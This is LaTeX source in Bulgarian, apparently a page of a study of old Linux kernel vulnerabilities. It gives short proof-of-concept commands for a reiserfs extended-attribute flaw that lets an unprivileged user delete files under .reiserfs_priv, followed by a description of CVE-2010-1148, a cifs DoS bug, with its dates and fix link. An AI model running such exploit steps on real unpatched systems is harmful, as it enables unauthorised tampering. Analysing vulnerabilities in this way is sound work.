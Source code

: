 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\subsection{Exploit}
като root:
\begin{verbatim}
truncate --size 64M test.reiserfs
mkreiserfs -f test.reiserfs
mkdir /mnt/test
mount -o loop,rw,user_xattr test.reiserfs /mnt/test
setfattr -n user.test -v myvalue /mnt/test
\end{verbatim}
като непривилегирован потребител:
\begin{verbatim}
ls -l /mnt/test/.reiserfs_priv/xattrs/2.0
rm /mnt/test/.reiserfs_priv/xattrs/2.0/user.test 
\end{verbatim}
Вижда се, че непривилигирован потребител може да пише в \textit{/mnt/test/.reiserfs\_priv}.


\section{CVE-2010-1148 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
Функцията \textit{cifs\_create} в \textit{fs/cifs/dir.c} в Linux ядрото версия 2.6.33.2 и по-
ранните от нея позволява на локални потребители да предизвикат DoS или 
евентуално някакъв друг проблем, посредством нулево \textit{nameidata} (още 
известно като nd) поле в POSIX-заявка за създаване на файл до сървър, 
поддържащ UNIX-разширения.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2009-02-23
  	\item Добива публичност: 2010-04-02
    \item Оправен: 2010-04-22\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=fa588e0c57048b3d4bfcd772d80dc0615f83fd35}}
\end{itemize}


\section{CVE-2010-1088 CVSS Score 5.4}
\subsection{Описание}
\end{document}
